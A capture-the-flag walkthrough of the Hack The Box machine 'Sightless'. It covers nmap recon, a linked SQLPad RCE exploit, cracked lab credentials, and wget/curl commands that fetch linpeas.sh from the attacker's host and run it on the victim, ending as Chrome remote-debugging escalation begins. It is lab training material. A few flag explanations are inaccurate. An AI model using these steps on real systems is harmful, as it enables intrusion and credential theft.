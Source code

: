 # Sightless walkthrough

## Connecting to Sightless

Sightless IP Address:           10.10.11.32
Sightless domain:               sightless.htb

My (Attacker) IP address:       10.10.16.3

Command used to connect to VPN: `sudo openvpn LAB_VPN`

## Scanning and Enumeration

Tools used: nmap

### Nmap Scan

Command: `nmap --min-rate 3000 -p- -A 10.10.11.32`

The command above is used to find out the open ports in the victim machine. The flags used are:

1. `--min-rate 3000`: This flag is used to limit the scan rate to 3000
2. `-p-`: This flag is used to scan all the ports
3. `-A`: This flag is used to enable OS detection and version detection

Results:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 22:56 +08
Nmap scan report for 10.10.11.32
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=12/18%Time=6762E2AD%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/18%OT=21%CT=1%CU=37713%PV=Y%DS=2%DC=T%G=Y%TM=676
OS:2E2F1%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=100%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=100%GCD=3%ISR=103%T
OS:I=Z%CI=Z%II=I%TS=A)OPS(O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=
OS:M542ST11NW7%O5=M542ST11NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE
OS:88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   78.86 ms 10.10.16.1
2   14.03 ms 10.10.11.32

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.14 seconds
```

Based on the nmap scan results, the open ports and their corresponding services are:

1. Port 21 -- FTP
2. Port 22 -- SSH
3. Port 80 -- HTTP

### Testing out FTP

Since port 21 is open, we can try to login anonymously to the server via FTP using username and password "anonymous". However, this was unsuccessful. So we'll be moving on to the next port.

SSH is a secure way to access the server, but we don't have the credentials to login. Therefore, we'll be moving on to the next port, port 80 hosting the HTTP server.

### Visiting the website

Before visiting the website, we can see that in the nmap scan above, there is a line `http-title: Did not follow redirect to http://sightless.htb/`. This line indicates that the domain for the IP address that we have is **sightless.htb**. So, based on this information we can add the line `10.10.11.32  sightless.htb` into the `/etc/hosts` file. By adding this line, we can just input **sightless.htb** into our browser to visit the site that is being hosted by the victim machine.

Once that is done, we can now visit the website. Visiting the website does not provide much information, but there are a few links that brings us to interesting pages. One of the links in their Services section brings us to Sqlpad. Once we're in the sqlpad page, we can see that find the version of Sqlpad that is running though its About page, which is version 6.10.0.

![Sqlpad version](./Screenshots/Sightless%20sqlpad%20version.png)

## Exploitation

By searching the internet for exploits targeting Sqlpad version 6.10.0, there is one exploit from 0xRoqeeb that allows for RCE ([GitHub](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)). Using this script, we can establish a reverse connection to the Sqlpad instance that is running on the victim machine.

Once the reverse connection is established, we can start performing further enumeration and possibly privilege escalation. Digging through the directories and files, we can find that we are already `root` and have read access to `/etc/shadow` file. This means that we can read the hashed passwords of all users on the system.

Going through `/etc/shadow`, we retrieved the passwords for (listed in the format username:password):

1. root:blindside
2. michael:insaneclownposse

With these usernames and passwords, we can now try to SSH into the victim machine using these credentials. However, only `michael`'s user:pass combination worked. Once logged in as michael, we can retrieve the user flag, which is found in `michael`'s home directory.

However, `michael` does not have administrator or root privileges, so we need to find another way to escalate privileges to find the root flag. To find a foothold, we can first bring in `linpeas.sh` to the victim machine, which is useful to find privilege escalation opportunities. To bring in the `linpeas.sh` script, we can first host a python server from the attacker's machine and then use `curl` or `wget` in the victim machine to download the script. The overall steps are as below:

1. Go to the directory that has the `linpeas.sh` script on the attacker's machine.
2. Run `python3 -m http.server PORT_NUMBER`, PORT_NUMBER can be any unused port on the attacker's machine.
3. Go to `michael`'s session that was previously established
4. Go to a directory where you have write access.
5. Run `wget http://10.10.16.3:8880/linpeas.sh -o linpeas.sh` or `curl http://10.10.16.3:8880/linpeas.sh -o linpeas.sh`, 10.10.16.3 is my machine's (attacker) IP address and the port that is hosting HTTP server using command 2 is 8880.
6. Run `chmod +x linpeas.sh` to make the script executable.
7. Run `./linpeas.sh` to run the script on the victim machine.

It will take some time for the script to fully execute, but once it is done, we will need to go through the results to find a possible entry point to gain root privileges. Based on the results, it seems that one of the users on the victim machine is running remote debugging using Chrome and linpeas is flagging it as a possible entry point.

![Chrome Remote Debugging as Entry Point](./Screenshots/Priv%20Esc%20through%20Chrome%20Remote%20Debugging.png)

## Privilege Escalation

Based on the information from `linpeas`, we can deduce that we will be somehow using Chrome's Remote Debugging feature to perform the privilege escalation. Further investigation through the internet shows that there are ways to abuse that feature. Below is the link that I referenced:

1. [Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)

Following the steps on the resource above, the command that was used to perform port forwarding to the attacker machine was `ssh -L LOCAL_PORT:localhost:REMOTE_PORT michael@sightless.htb` where LOCAL_PORT is an unused port on the attacker machine while REMOTE_PORT is a port that is serving or hosting some service on the victim machine.